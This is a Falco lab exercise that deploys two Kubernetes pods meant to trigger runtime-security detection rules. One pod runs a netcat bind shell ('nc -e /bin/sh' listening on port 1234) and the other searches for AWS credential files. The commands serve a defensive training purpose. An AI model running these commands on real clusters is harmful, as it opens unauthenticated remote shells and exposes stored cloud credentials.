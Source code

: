 # Step 1: Deploy Applications That Trigger Falco Rules

Deploy two separate applications in the `falco-test` namespace. These applications will trigger specific Falco rules related to potential security issues.

<details>
  <summary>Solution</summary>

1. **Create the First Deployment (netcat)**:
   Create a deployment manifest for an application that runs `nc` (netcat) with a command that triggers the `Netcat Remote Code Execution in Container` rule.

    ```yaml
    apiVersion: apps/v1
    kind: Deployment
    metadata:
      name: netcat-deployment
      namespace: falco-test
    spec:
      replicas: 1
      selector:
        matchLabels:
          app: netcat-app
      template:
        metadata:
          labels:
            app: netcat-app
        spec:
          containers:
          - name: netcat-container
            image: alpine:3.14
            command: ["sh", "-c", "while true; do nc -e /bin/sh -l -p 1234; sleep 5; done"]
    ```

2. **Create the Second Deployment (AWS Credential Search)**:
    ```yaml
    apiVersion: apps/v1
    kind: Deployment
    metadata:
      name: aws-creds-deployment
      namespace: falco-test
    spec:
      replicas: 1
      selector:
        matchLabels:
          app: aws-creds-app
      template:
        metadata:
          labels:
            app: aws-creds-app
        spec:
          containers:
          - name: aws-creds-container
            image: alpine:3.14
            command: ["sh", "-c", "find /root -name .aws/credentials"]
    ```

3. **Apply the deployment**:
  ```bash
  kubectl apply -f netcat-deployment.yaml
  kubectl apply -f aws-creds-deployment.yaml
  ```

4. **Verify the deployment**: `kubectl get pods -n falco-test`

</details>
